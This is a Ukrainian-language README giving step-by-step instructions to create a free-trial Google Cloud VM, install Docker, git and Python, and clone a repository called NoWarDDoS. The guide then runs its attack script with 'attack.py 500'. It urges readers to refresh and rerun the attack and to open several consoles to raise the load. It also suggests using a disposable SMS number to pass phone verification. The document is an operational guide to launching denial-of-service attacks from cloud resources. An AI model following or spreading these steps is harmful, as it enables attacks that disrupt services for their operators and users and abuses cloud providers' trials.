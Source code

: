 **Change language [English](README.en.md).**

Покрокова інструкція як створити віртуальну машину google з безоплатним пробним періодом у 300$ (вистачить на 1.5 місяці)

**Потрібно буде вказати номер телефону та кредитну карточку** (гроші не зніматиме поки не закінчиться пробні 300$)

Поставте нагадування щоб відписатись!!!

## Google cloud serivce:
1. Передйди: https://cloud.google.com/
2. Залогінся в свій акаунт (або створи новий)
3. Нажми **Get Started For Free**
4. Зареєструйся (**Потрібно буде вказати номер телефону та кредитну карточку**) (*номер можна взяти тут https://receive-smss.com/*)
5. Compute engine => VM instances
6. CREATE INSTANCE
	- Region - any Europe
	- Machine type - *e2-highcpu-8(8 vCPU, 8 GB memory)*
	- Boot disk => Change 
	- Operating system - *Ubuntu*
	- Firewall 
	 - - *allow http*
	 - - *allow https*
	- Keep rest default

7. Connect => Open in browser window

## 0. VM terminal:
Пиши в термінал все що після `$`

Наприклад:
- @instance-2:~$`sudo adduser apps`
- @instance-2:~/attacker$ `sudo git fetch`

Ці команди ще не пиши

## 1. Install Docker
     

    user@instance-2:~$ sudo adduser apps
    	-> ENTER x6
    user@instance-2:~$ sudo usermod -aG sudo apps
    user@instance-2:~$ su apps
    	-> Password:
    apps@instance-2:/home/user$ sudo ls
    [sudo] password for apps:
    apps@instance-2:/home/user$ exit
    user@instance-2:~$ su - apps
    	-> Password:
    apps@instance-2:~$ sudo ls
    apps@instance-2:~$ sudo apt-get -y update
    apps@instance-2:~$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
    apps@instance-2:~$ sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
    apps@instance-2:~$ sudo apt-get install -y docker-ce
    apps@instance-2:~$ sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
    apps@instance-2:~$ sudo chmod +x /usr/local/bin/docker-compose
    apps@instance-2:~$ sudo usermod -aG docker $USER
    apps@instance-2:~$ exit
    user@instance-2:~$ su - apps
    	-> Password:
    apps@instance-2:~$ docker run hello-world
    	...
    	Hello from Docker!
    	This message shows that your installation appears to be working correctly.

## 2. Install git:


    user@instance-2:~$ sudo apt-get update
    user@instance-2:~$ sudo apt-get install git

## 3. Install python:


    @instance-2:~$ sudo apt update
    @instance-2:~$ sudo apt install software-properties-common
    @instance-2:~$ sudo add-apt-repository ppa:deadsnakes/ppa
    	-> ENTER
    @instance-2:~$ sudo apt install python3.8
    	-> Y
    @instance-2:~$ sudo apt install python3-pip

## 4. Clone repo:


    @instance-2:~$ su apps
    @instance-2:~$ apps@instance-2:~$ sudo git clone https://github.com/AlexTrushkovsky/NoWarDDoS.git

## 5. Prepare and attack:

    

    @instance-2:~$ cd NoWarDDoS
    @instance-2:~/NoWarDDoS$ pip3 install -r requirements.txt
    @instance-2:~/NoWarDDoS$ sudo python3 attack.py 500

## After exit:

    @instance-2:~$ su apps
    	-> Password: 
    @instance-2:~$ cd NoWarDDoS
    @instance-2:~/NoWarDDoS$ sudo git fetch
    @instance-2:~/NoWarDDoS$ sudo python3 attack.py 500
    

##
Залишаєте на певний час, якщо побачити що більше не атакується:

	СTRL-C
    @instance-2:~$ cd NoWarDDoS
    @instance-2:~/NoWarDDoS$ sudo git fetch
    @instance-2:~/NoWarDDoS$ sudo python3 attack.py 500


Можете відкривати декілька консолей щоб збільшити навантаження (не більше 3):
    
    @instance-2:~$ su apps
    	-> Password: 
    @instance-2:~$ cd NoWarDDoS
    @instance-2:~/NoWarDDoS$ sudo git fetch
    @instance-2:~/NoWarDDoS$ sudo python3 attack.py 500
